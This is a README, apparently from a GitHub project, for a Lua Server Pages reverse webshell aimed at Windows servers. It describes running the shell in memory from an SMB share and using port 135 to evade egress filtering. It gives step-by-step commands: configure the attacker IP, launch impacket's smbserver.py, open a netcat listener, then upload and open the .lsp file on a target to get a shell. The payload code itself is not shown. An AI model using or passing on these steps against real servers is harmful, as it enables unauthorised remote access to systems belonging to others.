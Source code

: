 # LSP Reverse Shell
A Lua Server Pages reverse webshell for Windows. I noticed there was no '.lsp' webshell of any sort available online, so now there is.

Since the Lua sockets module (the traditional Lua reverse shell method) often isn't installed, this webshell opts instead to execute a reverse shell in-memory off of an SMB share. 

The reverse shell port is set to 135 to avoid any egress issues.

Be sure to install impacket if it isn't already installed, since you'll need smbserver.py.
### Usage:
* ```git clone https://github.com/the-emmon/lsp-reverse-shell```
* ```cd lsp-reverse-shell```
* Change the IP address in 'rev.lsp' to your machine.
* ``` sudo smbserver.py SMB . -comment share -ts -debug -smb2support -username user -password 'pass' ```
* Start a listener in another window with ```sudo nc -nlvp 135```
* Upload the 'rev.lsp' file, open the page, and you should immediately catch a shell.
